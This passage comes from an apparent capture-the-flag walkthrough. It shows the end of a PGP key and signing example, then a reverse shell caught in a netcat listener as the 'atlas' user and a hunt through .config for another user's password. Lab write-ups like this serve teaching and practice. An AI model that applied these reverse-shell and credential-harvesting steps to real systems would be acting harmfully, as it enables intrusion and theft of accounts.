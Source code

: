 ```bash
zEU/RMPTpdEZHRl4FbxPM0eN3QW73DV8eLa1qcjfOgAfYKNJsq0kN2inIi1eAhoM
d3DntLiDAe/W8NQIXIyApADs6ygykc9pP/st3jZjSa6AARWvbAUolu7RmR9a0+oy
v6dcW/L/3oeedSkBCQIBcefqlDKW3gsH+4QJFY+Lcvgu4UQZPIrT1dA4KEi74pR9
PvusXY9WvFmbtXFoMP7ZAQvAk1SYo7x64qzb6+nah7EAEQEAAYkBvAQYAQoAJhYh
BAB8k1iU6a7PJZurtre3m/xIlrwGBQJlOTD4AhsMBQkDwmcAAAoJELe3m/xIlrwG
3FcL/0mIiRUxF8jHiLt1FeDtGhVrXayDrH0AYJczOdKS0E2QUREW48ry12p8N2cf
KtBU+o4Xs3+GkxwPdvpF1HlER5RNFEyKHv3Tz3z7veNqdX+Yu/UCq140eOLVLpkC
TqKDGUbq5qTcG2etk12VgMjXhW1KRJ8VYvnt/C4gfN6A8rlKvtbGuKnoyPyx6+cn
uXqi0uX6kopYMhteOpwNqI+b4kxTTpmojv4ksEa3FlVjmnfZ1YfTyyT4mzGipIQ/
aOdjB+u3DEU0gK76uCJQpUw9RrPAQVhS4WVKryrpMW/7rYRqxGQYXVJu7aksJ9BT
yPDhu3NiJwbH9NPkO9QYcN5j2dGISnor8ZVb6IdWH0o+MOaDzWu1jHb18BSpKy0+
PM0CClcK3vSEffNs7wULLQrlPTyeG8RVXrXgdPQMabhGm37Ii4EJptNfqRosTDRQ
RUg/SP1Roo/u2RIs6q1htDAy3PzNF7Chn35QdIdBNOvqqCQ/0naAPjYuaumKwwFD
Gps1mQ==
=R3OU
-----END PGP PUBLIC KEY BLOCK-----

$ echo test | gpg --clear-sign
-----BEGIN PGP SIGNED MESSAGE-----
Hash: SHA512

test
-----BEGIN PGP SIGNATURE-----

iLMEAQEKAB0WIQSX/cqex3IqA123LxJosv89SsmomgUCZTkxxgAKCRBosv89Ssmo
miOWA/sH2JoF8wEu32kwumnT3DnPDpMkTPQR72KGhYGomjOd+/+ORluYaoH6qecu
OwO4W69jP9fdN3iJB7kSWEUHJdDxi1gz4peaieIHEmyXGNNk16VSEfN/78vWnQx/
BS94LVoGzEpez+CCiRYFV+3mc/quSDu1jQoYna6rPYjB79jQfA==
=hFfR
-----END PGP SIGNATURE-----

```

## Atlas → Silentobserver

And suddenly we get a reverse shell in our netcat listener as **atlas** user.
Here in home folder we found **.config** folder and go into that. We found another folder and we climb up 1 by 1. At last we found **config.json** where we found username and password of **silentobserver** user.

```bash
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.34] from (UNKNOWN) [10.10.11.218] 41154
/etc/profile.d/01-locale-fix.sh: line 2: /usr/bin/locale-check: No such file or directory
id
uid=1000(atlas) gid=1000(atlas) groups=1000(atlas)
ls
SSA
ls -la
total 16
drwxrwxr-x 3 nobody atlas   4096 May  4 14:58 .
drwxr-xr-x 3 nobody nogroup   60 Oct 25 15:12 ..
-rw-r--r-- 1 nobody atlas   6148 Jan 31  2023 .DS_Store
drwxrwxr-x 7 atlas  atlas   4096 Jun  7 15:18 SSA
ls -l
total 4
drwxrwxr-x 7 atlas atlas 4096 Jun  7 15:18 SSA
cd SSA
ls
app.py
__init__.py
models.py
```